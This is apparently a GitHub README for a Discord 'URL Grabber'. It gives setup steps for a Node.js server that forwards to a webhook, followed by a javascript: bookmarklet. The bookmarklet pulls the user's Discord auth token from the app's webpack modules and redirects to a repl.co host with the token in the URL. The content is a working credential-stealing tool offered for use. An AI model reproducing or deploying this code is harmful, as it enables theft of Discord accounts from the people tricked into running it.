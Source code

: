 # URL Grabber Made By Bhuvnesh#0102

## How To Use? 🤔

1. Make Sure if [Node.js](https://nodejs.org "Download Node.js")@^16.6 is installed (ignore if in repl.it)
2. Clone this Repo in Your PC or Repl.it 
3. Replace `WEBHOOK URL` with you own webhook url in `config.json`
4. `npm install` to install all deps :)
5. `node index.js` to start server
6. Copy the URL if in repl.it
7. Get Yourself The "Code" to get Token, See Below For Code
8. Replace `REPLACE WITH YOUR URL` with your URL :)
9. You Got you Code Now :)
10. Now Use it, If You Still dont know how to use it! **May God Help You**

## Code
```js
javascript:(async() => { const token = (webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken();window.location.href = `https://urlgrabber-2.dynoxyopplayz.repl.co/?user=${token}`;})()
```


#### 🚧 If You Think this Code is skidded *aja kone me mil vro teko perms deta* 🚧
